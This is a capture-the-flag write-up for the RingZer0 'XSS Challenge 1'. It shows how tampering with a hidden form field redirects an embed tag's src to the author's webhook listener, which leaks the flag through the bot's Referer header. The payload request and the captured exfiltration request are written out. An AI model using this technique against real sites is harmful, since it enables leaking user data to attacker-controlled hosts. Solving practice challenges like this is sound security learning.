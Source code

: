 # XSS Challenge 1 Solutions

The first payload I tried with is 
```
abcd"<'
```
and viewing the page source for the response is the following:
```html

<!DOCTYPE html>
<html>
	<head>
		<title>RingZer0 Team Online CTF Challenge</title>
		<link rel="stylesheet" type="text/css" href="/css/main.css">
	</head>
	<body>
		<header></header>
		<div class="padding"><img src="/imgs/logo.png" /></div>
		<section>
    <br />
    <br />
    Generate random image using base64 string.<br /><br />
    <form action="" method="post">
      base64 string<br />
      <input type="hidden" name="type" value="data:image/png;base64" />
      <textarea name="img"></textarea><br />
      <input type="submit" value="submit" />
    </form>
    <br /><embed src="data:image/png;base64,abcd&quot;&lt;&#039;" /><br /><br />
  </section>
  <div class="pre_footer"></div>
  <footer>RingZer0 Team 2022</footer>
	</body>
</html>
```

Essentially, this is how my payload was reflected in the document:
```html
<br /><embed src="data:image/png;base64,abcd&quot;&lt;&#039;" /><br /><br />
```
So looks like `data:image/png;base64,` was appended with my payload (with everything escaped).

Another interesting thing from the page source is the following hidden form input, which seems to be what my payload was appended to:
```html
<input type="hidden" name="type" value="data:image/png;base64" />
```

To test this theory, from the developer tools, I changed the `value` attribute of the hidden field to `blah` (or could've used Burp) and submitted another comment. I got an embeded frame with the following content:
```
<!DOCTYPE html PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at challenges.ringzer0team.com Port 10096</address>

</body></html>
```

Also, looking at the page source from the response:
```html

<!DOCTYPE html>
<html>
	<head>
		<title>RingZer0 Team Online CTF Challenge</title>
		<link rel="stylesheet" type="text/css" href="/css/main.css">
	</head>
	<body>
		<header></header>
		<div class="padding"><img src="/imgs/logo.png" /></div>
		<section>
			<br />
      <br />
      Generate random image using base64 string.<br /><br />
      <form action="" method="post">
        base64 string<br />
        <input type="hidden" name="type" value="data:image/png;base64" />
        <textarea name="img"></textarea><br />
        <input type="submit" value="submit" />
      </form>
      <br /><embed src="blah,abcd&quot;&lt;&#039;" /><br /><br />
		</section>
		<div class="pre_footer"></div>
    <footer>RingZer0 Team 2022</footer>
	</body>
</html>
```

and this is how the payload was reflected:
```html
<br /><embed src="blah,abcd&quot;&lt;&#039;" /><br /><br />
```
So looks like what gets reflected on the page is:
```
the value of the hidden field + "," + escaped contents of the comment, reflected in the "src" attribute of an "embed" tag.
```
The next thing I tried was entering my webhook listener url with an `#` at the end to comment out the "," that gets appened to it as the `value` attribute of the hidden form input, and submited an empty comment.
Essentially, my request looked something like:

```
type=http%3A%2F%2Fmywebhooklistener.com%23&img= 
```
Parsed, it looks like:
```
type: http://mywebhooklistener.com#
img: 
```
I received the following request from the XSS Bot:
```
GET / HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Referer: http://127.0.0.1/xss1/bot_endpoint_4s7k718yYC.php?FLAG-[CENSORED]
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en,*
Host: mywebhooklistener.com
```

Voilà! :) 
